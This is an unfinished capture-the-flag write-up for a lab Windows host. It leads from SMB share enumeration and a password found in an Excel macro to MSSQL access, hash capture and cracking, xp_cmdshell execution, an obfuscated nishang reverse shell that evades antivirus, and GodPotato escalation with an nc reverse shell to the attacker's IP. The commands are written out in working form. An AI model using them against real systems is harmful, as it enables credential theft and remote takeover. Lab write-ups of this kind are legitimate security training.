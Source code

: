 #InProgress 
```IP
10.10.10.125
```
# Enumeration
## SMB
nxc doesn't work for some reason, but smbclient does:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220113806.png?raw=true)
We can find an xlsm file inside the share:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114042.png?raw=true)
The file was created a user called Luis
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114517.png?raw=true)

## HTTP

# Exploitation
Let's try a phishing attack with a malicious xlsm
It wont work
It has already some macros, lets check them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220115218.png?raw=true)
We find a password
```
PcwTWTHRwryjc$c6
```
It seems to respond to our password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120120.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120157.png?raw=true)
We can extract some more users and since what the macro is doing in an sql database connection we will try with impacket-mssql to connect to the database
```
impacket-mssqlclient Reporting@10.10.10.125 -windows-auth
```
We do some mssql enumerations but the databases doesn't seem to contain anything interesting. The users don't have hashes that we can crack, and we don't have xp_cmdshell in order to execute OS commands. Let's set up responder and try to get a call back with xp_dirtree in order to perform an smb relay attack:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120940.png?raw=true)
The command used being the following:
```
exec master.dbo.xp_dirtree '\\10.10.14.17\test'
```

And we get a hash for mssql-svc!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220121213.png?raw=true)
Let's crack the hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/mssql-svc.hash
```
And we get the following password:
```
corporate568
```
Let's try the new password on some services, the only one working will be mssql again
```
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```
We have code execution
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
```
EXEC master..xp_cmdshell 'whoami'
```
When tryint to upload and execute some reverse shell the AV prevents us to do so:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220124742.png?raw=true)
We will need a tool to obfuscate the code
Let's create a nishang reverse shell and obfuscate it with https://github.com/JoelGMSec/Invoke-Stealth
Firstly we clone the repo and cd into it, and then copy the revshell into our directory and edit the contents of it to our IP and port:
```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```
And in a powershell we obfuscate it with the following command:
```
./Invoke-Stealth.ps1 ../rev.ps1 --technique PyFuscation
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220130715.png?raw=true)
We transfer it with:
```
powershell wget http://10.10.14.17:8000/rev.ps1 -O C:\users\public\rev.ps1
```
And execute it with 
```
EXEC master..xp_cmdshell 'powershell  C:\users\public\rev.ps1'
```
We get first flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131625.png?raw=true)

# PrivEsc
## Manual
we have impersonate priv
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131529.png?raw=true)
Let's get a reverse shell with GodPotato
```
wget http://10.10.14.17/GodPotato-NET4.exe -O GodPotato-NET4.exe
```
```
wget http://10.10.14.17/nc64.exe -O nc.exe
```
```
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\windows\system32\cmd.exe 10.10.14.17 1234"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220132214.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement


